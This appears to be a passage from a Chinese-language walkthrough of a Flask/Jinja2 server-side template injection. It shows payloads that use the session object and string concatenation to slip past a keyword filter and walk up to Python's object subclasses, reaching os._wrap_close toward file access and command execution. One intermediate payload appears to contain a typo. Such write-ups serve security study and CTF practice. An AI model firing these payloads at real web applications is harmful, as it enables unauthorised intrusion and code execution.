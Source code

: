 从这里来看，似乎已经完全无法下手了。因为 request 和 class 都被过滤掉了。

卡在这里以后，最好的办法就是去查 Flask 官方文档了。从 Flask 官方文档里，找到了 session 对象，经过测试没有被过滤。更巧的是，session 一定是一个 dict 对象，因此我们可以通过键的方法访问相应的类。**由于键是一个字符串，因此可以通过字符串拼接绕过。**

python：

```
{{session['__cla'+'ss__']}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174708-2b8b56e6-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174708-2b8b56e6-bd3e-1.png)

访问到了类，我们就可以通过 `__bases__` 来获取基类的元组，带上索引 0 就可以访问到相应的基类。由此一直向上我们就可以访问到最顶层的`object`基类了。**（同样的，如果没有过滤 config 的话，我们还可以利用 config 来逃逸，方法与 session 的相同）**

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174709-2c443062-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174709-2c443062-bd3e-1.png)

有了对象基类，我们就可以通过访问 `__subclasses__` 方法再实例化去访问所有的子类。同样使用字符串拼接绕过 WAF，这样就实现沙箱逃逸了。

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'ss__']()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174712-2e0adcc0-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174712-2e0adcc0-bd3e-1.png)

SSTI 目的无非就是两个：文件读写、执行命令。因此我们核心应该放在 file 类和 os 类。而坑爹的是，Python3 几乎换了个遍。因此这里得去看官方文档去找相应的基类的用处。

我还是从 os 库入手，直接搜索 “os”，找到了 `os._wrap_close` 类，同样使用 dict 键访问的方法。猜大致范围得到了索引序号，我这里序号是 312，

payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312]}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174713-2ea589fa-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174713-2ea589fa-bd3e-1.png)

我们调用它的 `__init__` 函数将其实例化，然后用 `__globals__` 查看其全局变量。
